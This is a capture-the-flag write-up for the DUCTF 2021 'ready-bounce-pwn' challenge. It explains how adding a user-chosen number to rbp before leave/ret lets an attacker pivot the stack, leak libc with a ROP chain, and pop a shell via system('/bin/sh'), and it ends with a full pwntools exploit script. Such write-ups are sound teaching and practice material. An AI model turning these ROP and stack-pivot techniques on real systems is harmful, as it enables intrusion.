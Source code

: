 # Challenge Overview

```
❯ checksec rbp
[*] '/DUCTF-2021/pwn/ready-bounce-pwn/challenge/rbp'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

The program prompts for our name and reads 24 bytes into a buffer (on the stack) before prompting us for our favourite number. It increments `rbp` by our favourite number and then returns.

# Solution

Decompiling the binary (i.e. with Ghidra or IDA) gives pseudo C code that looks like a very simple and not really vulnerable program. However, fuzzing some inputs to the `read_long` function will quickly lead to a crash. Looking into the disassembly, we see towards the end of `main`:

```
0x0000000000401239 <+100>:	call   0x4011a9 <read_long>
0x000000000040123e <+105>:	add    rbp,rax
0x0000000000401241 <+108>:	mov    eax,0x0
0x0000000000401246 <+113>:	leave
0x0000000000401247 <+114>:	ret
```

Peculiarly, the return value of `read_long` (i.e. our "favourite number") is added to `rbp` just before the function epilogue.

Recall that the `leave` instruction is equivalent to

```
mov rsp, rbp
pop rbp
```

and `ret` pops the value at the top of the stack and jumps to it.

Since we are able to offset `rbp` before `leave` is executed, we can effectively reposition the stack frame and control the return address. The most obvious candidate is to offset `rbp` so that the return address will be read from the user controlled buffer.

The exploit idea will be to build a ROP chain to leak libc, and then build another ROP chain to get a shell.

## Leaking libc

The buffer we can control is 24 bytes. I couldn't find a way to get a leak with less than 3 gadgets, so let's assume we need 3 gadgets to leak libc. But we'll also need to return back to main so that we can get another write to get a shell. This means we'll need at least 32 bytes to hold our ROP chain, but we only have a 24 byte buffer :(. Fortunately, there's a way to get an extra 8 bytes.

The function prologue looks like:

```
0x00000000004011d5 <+0>:	push   rbp
0x00000000004011d6 <+1>:	mov    rbp,rsp
0x00000000004011d9 <+4>:	sub    rsp,0x20
```

and the call to `read` looks like:

```
0x00000000004011fb <+38>:	lea    rax,[rbp-0x20]
0x00000000004011ff <+42>:	mov    edx,0x18
0x0000000000401204 <+47>:	mov    rsi,rax
0x0000000000401207 <+50>:	mov    edi,0x0
0x000000000040120c <+55>:	call   0x401050 <read@plt>
```

So if we go through one pass of `main` and return to `main+1`, then when we get to `read` in the second pass, `rbp` will be what we manipulated `rsp` into being in the first pass (which itself is affected by what we chose to offset `rbp` by). Since we offset `rbp` such that `rsp` ends up pointing to somewhere in the name buffer, this means `rbp-0x20` will point to somewhere before the start of where the name buffer was in the first pass. So we can fill the buffer with `main+1` in the first pass, and in the second pass we can write 3 gadgets and have a `main+1` at the end of the ROP chain for free!

## Getting a Shell

Now that we have a libc leak, we can find the addresses of `system` and `"/bin/sh"` in the provided libc and build a ROP chain to call `system("/bin/sh")`. Since we don't care about returning to `main`, we can easily do this with 24 bytes.

```py
from pwn import *

def write(name, offset):
    conn.sendafter('? ', name)
    conn.sendlineafter('? ', str(offset))

elf = ELF('../challenge/rbp')
conn = remote('0.0.0.0', 1337)

pop_rdi = 0x00000000004012b3

write(b'A'*8 + p64(elf.symbols['main'] + 0x1)*2, -0x20)
write(p64(pop_rdi) + p64(elf.got['puts']) + p64(elf.plt['puts']), -0x28)

leak = u64(conn.recvline().strip().ljust(8, b'\x00'))
libc_base = leak - 0x809d0
log.success('libc base: ' + hex(libc_base))

system = libc_base + 0x4fa60
bin_sh = libc_base + 0x1abf05
write(p64(pop_rdi) + p64(bin_sh) + p64(system), -0x28)

conn.interactive()
```
